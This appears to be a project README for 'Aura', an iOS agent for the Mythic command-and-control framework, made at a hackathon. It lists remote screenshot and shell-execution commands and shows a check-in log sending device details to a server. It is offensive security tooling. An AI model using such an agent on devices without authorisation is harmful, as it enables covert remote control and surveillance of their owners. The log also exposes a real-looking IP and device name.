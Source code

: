 # Aura iOS Agent

## Description
Aura is an iOS payload designed to interact with a Mythic C2 (command and control) server and was developed over the [2024 Microsoft Global Hackathon](https://microsoft.sharepoint.com/sites/MicrosoftGlobalHackathon2024). To fit within the time constraint of one week:
* The agent communicates over plain text HTTP channels
* Mythic will manage and initate the agent builds per-usual, but the actual compilation and configuration of the agent will take place remotely on macOS w/iOS SDK outside of Docker.
* A limited number of commands will be implemented.

### Requirements
* iOS 12.5.7+

## Operator commands
| Description | Implemented Command |
| - | - |
| Take a screenshot | `take_screenshot` |
| Execute a shell command | `shell_execution [args]` |

## Execution example
```txt
2024-09-20 18:13:33.914 aura[2322:270194] 👋 Hello from the Aura iOS agent!
2024-09-20 18:13:33.916 aura[2322:270194] [DEBUG] Check-in URL: http://ec2-54-245-60-126.us-west-2.compute.amazonaws.com:80/agent_message
2024-09-20 18:13:34.027 aura[2322:270194] {
    action = checkin;
    architecture = arm64;
    domain = local;
    "external_ip" = "136.24.173.189";
    host = "brandontonsipad.localdomain";
    "integrity_level" = 2;
    ips =     (
        "192.168.0.18"
    );
    os = "iOS 12.5.7";
    pid = 2322;
    "process_name" = aura;
    user = mobile;
    uuid = "b355bc11-0c78-41ec-b3b7-7220561137fa";
}
```